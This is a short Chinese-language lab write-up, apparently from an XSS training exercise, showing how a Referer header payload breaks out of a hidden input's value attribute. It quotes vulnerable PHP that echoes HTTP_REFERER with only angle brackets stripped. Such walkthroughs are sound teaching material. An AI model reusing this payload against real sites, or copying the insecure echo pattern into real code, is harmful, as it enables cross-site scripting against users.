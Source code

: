 # 知识点：
请求头referer xss注入
# 思路：
payload
```
Referer:" type="text" onclick="javascript:alert(1)" "
```
发现有隐藏的表单<br />![image.png](./images/20231017_2355117046.png)<br />查看源码可以发现只有t_ref可以进行xss注入并且要通过referer请求头进行注入

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```
![image.png](./images/20231017_2355137414.png)
